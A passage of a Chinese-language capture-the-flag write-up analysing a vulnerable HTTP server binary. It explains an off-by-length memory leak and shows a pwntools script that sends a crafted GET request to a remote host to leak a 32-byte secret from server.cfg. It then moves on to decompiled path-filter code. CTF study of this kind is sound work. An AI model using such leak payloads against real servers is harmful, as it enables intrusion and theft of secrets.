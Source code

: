 问题就出在这了，v4的值为`len(tmp)`而不是`len(s)`.
这里的v3是可控的，所以我们可以通过控制v3来控制v4的值，然后通过`result = write(fd, &s, v4);`
泄露内存，做到这，第一步的思路已经很明了了，就是通过内存泄露来获取s2的值

通过本地调试，发现
```
0x7ffe453 2ffb0 //s的地址

0x7ffe453 30210 //s2的地址
```

接下来就简单了，直接贴payload:
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *

context.log_level='debug'
r = remote('123.59.56.23', 43481)
payload = 'GET /tmp/a\nHTTP/1.0' + 'g'*(608+3) + 'Cookie: auth=x\n'
r.send(payload)
while True:
	r.recv()
```

![baimao](http://qn.lazysheep.cc/img/baimao1.png)
得到`../server.cfg`中32bytes的内容.

接下来就是分析`sub_400F12`函数，发现是一个base64decode函数，那就简单了，把这32bytes内容进行base64编码后加入cookie中. 

进入下一步，继续代码
代码贴出来分析
```
....
	for ( i = 0LL; i < (signed __int64)n; ++i )
	{
		if ( *(_BYTE *)(i + 0x605240) == 0xD || *(_BYTE *)(i + 0x605240) == 0xA )
		*(_BYTE *)(i + 0x605240) = 0;
	}
	// \n和\r都会转换成\0
....
	file = (char *)&unk_605244;
	v8 = strlen((const char *)&unk_605244);
	v15 = 0LL;
	while ( v8 > v15 && isspace(file[v15]) )
	{
		++v15;
		++file;
	} // 去除开头的空格
	for ( j = 0LL; ; ++j )
	{
		if ( strlen(file) <= j )
			goto LABEL_38;
		if ( isspace(file[j]) )
			break;
	}
	file[j] = 0; //把遇到的第一个空格转换成\0
LABEL_38:
	v9 = strlen(file);
	for ( k = 0; k < v9; ++k )
	{
		if ( file[k] == 0x2E && file[k + 1] == 0x2E )
			sub_40133B(2, 4203054LL, (__int64)file, a1); 
	} // file中不能存在连续的0x2E(.)字符
	v11 = 0LL;
```